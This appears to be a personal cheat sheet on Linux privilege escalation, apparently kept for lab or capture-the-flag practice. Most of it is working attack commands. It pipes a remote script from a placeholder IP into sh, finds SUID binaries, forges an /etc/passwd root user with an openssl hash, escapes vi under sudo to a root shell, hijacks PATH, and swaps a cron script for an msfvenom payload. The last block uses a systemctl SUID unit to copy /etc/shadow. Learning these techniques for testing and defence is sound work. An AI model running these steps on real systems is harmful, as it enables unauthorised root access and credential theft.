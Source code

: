 # Common Privsec in Linux

## Enumeration

LinEnum:

```
Usage:
python -m http.server [own machine]

wget <ip address of machine>/LinEnum
chmod +x LinEnum

./LinEnum

OPTIONS:
-k	Enter keyword
-e	Enter export location
-s 	Supply user password for sudo checks (INSECURE)
-t	Include thorough (lengthy) tests
-r	Enter report name (save report to current directory)
-h	Displays this help text

or 

curl <ip address>/LinEnum.sh | sh (cannot specify options)
```

Important outputs of LinEnum:
- Kernel: Kernel Information is shown here.
- Can we read/sensitive files.
- SUID Files: 
- Group membership: Says which users are in which group.
- Crontab Content:

## Abusing SUID/SGID files

- First set in privsec is checking SUID/GUID set up.
- SUID is set user ID/ SGID is set group ID.

```
SUID:
rws-rwx-rwx

SGID:
rwx-rws-rwx
```

Find SUID/SGID

```
find / -perm -u=s -type f 2>/dev/null
```

## Exploiting writeable /etc/passwd

- /etc/passwd is plain text
- Write permission should be only for root/superusers.
- Can be exploited if user has accidentently added to a write-group.

### Format of /etc/passwd

user:x:0:0:root:/root:/bin/bash

- Username: Used when the user logins.
- Password: x means it is encrypted in the etc/shadow file.
- User ID (UID): Each user is assigned a user ID. UID 0 is root, UID 1-99 for non.
- Group ID (GID): Primary group ID.
- User ID info: Comment field for the user, can contain phone numbers etc.
- Home directory: Absolute path to home directory.
- Command/shell: Abosulte path to command shell.

Exploting etc/passwd is easy, just create a new user.

- Need to create a password hash to add to the password section of /etc/passwd file  

```
openssl passwd -1 -salt [salt] [password]
```  
- Add to /etc/passwd

## Escaping vi Editor

- sudo -l checks which commands can be run as sudo.
- Running vi as sudo then :!sh escapes vi into root.

### Misconfigured Binaries and GTFObins.

-  GTFOBins is a list of Unix binaries that can be exploited  to bypass local security restrictions.
  (https://gtfobins.github.io/)
- If a misconfigured binary is found then look it up in GTFOBins.

## Exploiting Crontab

- View active cronjobs using cat /etc/crontab

### Cronjob format

```
# = ID

m = Minute

h = Hour

dom = Day of the month

mon = Month

dow = Day of the week

user = What user the command will run as

command = What command should be run

* = means blank

17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly

```

Exploiting cronjob. Replace cronjob script with payload from msfvenom.

## Exploiting PATH Variable

- PATH specifies direcoties that hold executable programmes.
- When a command is run the executable file is searched using path variables.

### How to exploit path variables (example with SUID).
- Find an SUID with root.
- If the SUID runs a command the path can to the command can be changed.

```
cd /tmp

echo "/bin/bash" > [command to be run] 

chmod +x 
export PATH=/tmp:$PATH

run SUID.

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH
(this resets the path)

``` 
	 
## Exploiting systemctl SUID

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "command you want here i.e cat /etc/shadow > /tmp/passwrds"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```